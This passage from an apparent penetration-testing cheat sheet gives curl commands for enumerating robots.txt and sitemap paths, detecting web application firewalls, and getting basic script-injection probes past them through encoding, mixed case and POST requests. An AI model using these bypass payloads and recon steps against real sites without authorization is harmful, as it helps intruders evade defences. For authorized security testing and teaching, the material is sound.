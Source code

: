 ### **robots.txt Enumeration**
```bash
# Check robots.txt
curl https://example.com/robots.txt

# Find disallowed directories
curl https://example.com/robots.txt | grep -i disallow

# Extract interesting paths
curl https://example.com/robots.txt | grep -E "(admin|login|config|backup|private)"
```

### **Sitemap Discovery**
```bash
# Check for sitemaps
curl https://example.com/sitemap.xml
curl https://example.com/sitemap_index.xml
curl https://example.com/sitemap1.xml

# Google sitemap format
curl https://example.com/sitemap.txt
```

---

## **WAF Detection and Bypass**

### **WAF Detection**
```bash
# wafw00f - WAF detection
wafw00f https://example.com

# Manual detection through headers
curl -I https://example.com | grep -E "(cloudflare|incapsula|barracuda|f5|imperva)"

# Test with malicious payload
curl "https://example.com/?test=<script>alert(1)</script>"
```

### **Basic WAF Bypass Techniques**
```bash
# URL encoding
curl "https://example.com/?test=%3Cscript%3Ealert(1)%3C/script%3E"

# Mixed case
curl "https://example.com/?test=<ScRiPt>alert(1)</ScRiPt>"

# Double encoding
curl "https://example.com/?test=%253Cscript%253Ealert(1)%253C/script%253E"

# Using different HTTP methods
curl -X POST https://example.com/search -d "query=<script>alert(1)</script>"
```

---